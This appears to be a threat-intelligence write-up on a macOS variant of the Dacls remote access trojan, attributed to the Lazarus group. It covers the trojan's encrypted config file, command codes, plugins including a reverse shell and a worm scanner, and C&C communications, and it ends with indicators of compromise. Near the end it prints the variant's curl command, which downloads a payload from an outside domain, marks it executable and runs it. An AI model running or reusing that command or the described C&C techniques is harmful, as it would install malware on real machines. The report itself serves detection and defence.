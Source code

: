  The file name and directory to store the plist are in hex format and appended together. They show the filename and directory backwards.    Config File The config file contains the information about the victim’s machine such as Puid, Pwuid, plugins and C&C servers. The contents of the config file are encrypted using the AES encryption algorithm.      Both Mac and Linux variants use the same AES key and IV to encrypt and decrypt the config file. The AES mode in both variants is CBC.    The config file location and name are stored in hex format within the code. The name of the config file pretends to be a database file related to the Apple Store: “Library/Caches/Com.apple.appstore.db”    The “IntializeConfiguration” function initializes the config file with the following hardcoded C&C servers.     The config file is constantly updated by receiving commands from the C&C server. The application name after installation is “mina”. Mina comes from the MinaOTP application which is a two-factor authentication app for macOS.    Main Loop After initializing the config file, the main loop is executed to perform the following four main commands:  Upload C&C server information from the config file to the server (0x601)Download the config file contents from the server and update the config file (0x602)Upload collected information from the victim’s machine by calling “getbasicinfo” function (0x700)Send heartbeat information (0x900) The command codes are exactly the same as Linux.dacls.     Plugins This Mac RAT has all the six plugins seen in the Linux variant with an additional plugin named “SOCKS”.  This new plugin is used to proxy network traffic from the victim to the C&C server. The app loads all the seven plugins at the start of the main loop. Each plugin has its own configuration section in the config file which will be loaded at the initialization of the plugin.     CMD plugin The cmd plugin is similar to the “bash” plugin in the Linux rat which  receives and executes commands by providing a reverse shell to the C&C server.     File Plugin The file plugin has the capability to read, delete, download, and search files within a directory. The only difference between the Mac and Linux version is that the Mac version does not have the capability to write files (Case 0).     Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227
